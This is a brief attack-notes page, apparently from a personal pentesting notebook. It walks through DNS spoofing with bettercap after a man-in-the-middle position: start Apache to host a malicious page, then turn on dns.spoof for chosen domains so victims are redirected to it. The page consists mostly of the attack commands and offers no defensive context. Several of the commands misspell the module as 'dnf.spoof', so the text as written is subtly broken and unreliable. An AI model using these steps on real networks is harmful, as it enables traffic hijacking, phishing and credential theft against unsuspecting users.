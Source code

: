 ```yaml
---
title: DNS Spoofing Attack
tags:
  - networking
  - exploitation
date: 2024-01-28 14:15:56 -0600
updated: 2025-05-21 19:10:30 -0500
---
```


After performing MITM attack all the targets packets are flowing through our system. We can redirect the user to an malicious website by spoofing the DNS request of the user

#### Start Apache Server

````bash
systemctl start apache2.service
````

`/var/www/html`: Location of Apache Files

#### DNS Spoofing

````bash
bettercap -iface <interface> -caplet <spoof-data-cap-file>
help dns.spoof

set dnf.spoof.all true
# Domains for which DNS should be spoofed
set dnf.spoof.domains <domains> 
dnf.spoof on
````

This attack does not work on HSTS websites

